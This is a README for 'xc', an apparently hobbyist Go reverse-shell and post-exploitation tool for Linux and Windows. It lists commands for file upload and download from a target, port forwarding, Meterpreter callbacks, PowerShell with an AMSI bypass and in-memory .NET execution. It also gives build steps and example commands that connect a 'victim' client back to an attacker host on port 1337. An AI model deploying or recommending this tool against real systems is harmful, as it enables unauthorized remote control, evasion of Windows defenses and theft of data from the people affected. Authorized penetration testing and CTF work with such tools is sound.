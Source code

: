 # xc

Netcat like reverse shell for Linux & Windows. This is/was my project for learning golang so expect some bugs.

## Features

### Windows

```  
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
  !powershell
    * starts powershell with AMSI Bypass
  !rc <port>
    * connects to a local bind shell and restarts this client over it
  !runasps <username> <password> <domain>
    * restart xc with the specified user using powershell
  !vulns
    * checks for common vulnerabilities
  !net <sample.exe> <arg1> <arg2> ...
    * Uploads & Runs a .NET assembly from memory
``` 

### Linux

```
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
 !ssh <port>
   * starts sshd with the configured keys on the specified port
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

``` 
go get golang.org/x/sys/windows
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
pip3 install donut-shellcode
``` 

Linux:
```
make
```

## Known Issues

* When !lfwd fails due to lack of permissions (missing sudo), the entry in !lsfwd is still created
* Can't Ctrl+C out of powershell started from !shell

## Credits

* Included PrivescCheck by itm4n for windows clients: https://github.com/itm4n/PrivescCheck  